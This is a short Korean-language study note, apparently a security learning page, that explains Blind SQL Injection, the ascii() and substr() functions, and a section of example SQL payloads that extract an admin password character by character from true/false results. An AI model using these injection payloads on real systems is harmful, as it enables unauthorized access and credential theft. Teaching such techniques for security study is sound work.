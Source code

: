 # Blind SQL Injection

<aside>
📢 해당 공격 기법은 `스무고개 게임`과 비슷한 매커니즘 !!

</aside>

질의 결과를 이용자가 화면에서 직접 확인하지 못할 때,

참 / 거짓 반환 결과로 데이터를 획득하는 공격 기법을 `Blind SQL Injection` 이라고 한다.

그 전에 쓰이는 공격에 쓰이는 함수들을 알아보자.

### ascii

---

전달된 문자를 `아스키 형태로 변환`하는 함수.

예를 들어 `ascii(’a’)` 를 실행하면 ‘a’ 문자의 아스키 값인 `97`을 반환.

### substr

---

> `substr(string, position, length)`
> 

substr 함수에 전달되는 인자는 위와 같다.

아래의 코드는 사용 예시

```sql
substr('ABCD',1,1) //결과값 = 'A'
substr('ABCD',2,2) //결과값 = 'BC'
```

## 공격코드

---

```sql
# 첫 번째 글자 구하기 (아스키 114 = 'r', 115 = 's'')
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))=114-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,1,1))=115-- ' and upw=''; # True
# 두 번째 글자 구하기 (아스키 115 = 's', 116 = 't')
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))=115-- ' and upw=''; # False
SELECT * FROM user_table WHERE uid='admin' and ascii(substr(upw,2,1))=116-- ' and upw=''; # True
```

이와 같이 참 / 거짓 반환 값을 통해 공격을 한다.

하지만 이렇게 공격을 하게 된다면 너무 `많은 시간`이 들고 `비효율적`이다.

따라서 대부분 `자동화 스크립트`를 짜서 공격을 한다.